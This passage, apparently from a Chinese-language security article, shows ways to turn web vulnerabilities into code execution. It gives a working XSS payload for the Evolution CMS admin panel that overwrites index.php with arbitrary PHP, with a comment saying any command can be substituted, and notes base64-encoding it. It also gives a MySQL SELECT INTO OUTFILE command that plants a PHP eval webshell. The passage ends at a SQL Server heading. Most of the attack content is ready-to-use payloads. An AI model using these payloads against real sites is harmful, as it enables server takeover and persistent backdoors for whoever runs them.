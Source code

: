 插入payload，验证xss漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xFHQlhLXvfUsYQEeWutZ0QOTibr80ibiaPLxqqfBrDGgpLqjjOcxb69CvQ/640?wx_fmt=png&from=appmsg "")  
  
在Evolution CMS后台不能上传后缀为php的文件，利用javascript 实现文件编辑的功能，修改 index.php 的内容为 phpinfo()  
  
构造 payload  
```
$.get('/manager/?a=31',function(d) {
  let p = $(d).contents().find('input[name=\"path\"]').val();
  $.ajax({
    url:'/manager/index.php',
    type:'POST',
    contentType:'application/x-www-form-urlencoded',
    data:'a=31&mode=save&path='+p+'/index.php&content=<?php phpinfo(); ?>'} #可以修改成任意命令
  );
});

```  
  
将payload进行base64编码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xAAghg32erPcMfq2dgYBqJw0BicZzhYqlJcHG5iaFasqKUfwQXLMNFnCg/640?wx_fmt=png&from=appmsg "")  
  
访问url  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v4Qrp5RsicPia2VLnC1OYy80xrWnB8ibLhmxQPV20k8SDpSwXtCPvCbl2r26hyktTUIHicLLOyXicWe9Ig/640?wx_fmt=png&from=appmsg "")  
### SQL注入漏洞导致RCE  
#### DBA权限  
  
**条件**  
```
1、root账户登录
2、知道绝对路径
3、secure_file_priv=“ ” 可以向任意绝对路径写文件，在my.ini中进行配置

```  
```
mysql> show global variables like '%secure_file_priv%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set, 1 warning (0.00 sec)

```  
  
执行命令  
```
mysql> select '<?php @eval($_REQUEST[6]);?>' into outfile 'D:/www/shell.php';
Query OK, 1 row affected (0.00 sec)

mysql>

```  
#### sql server注入RCE  
  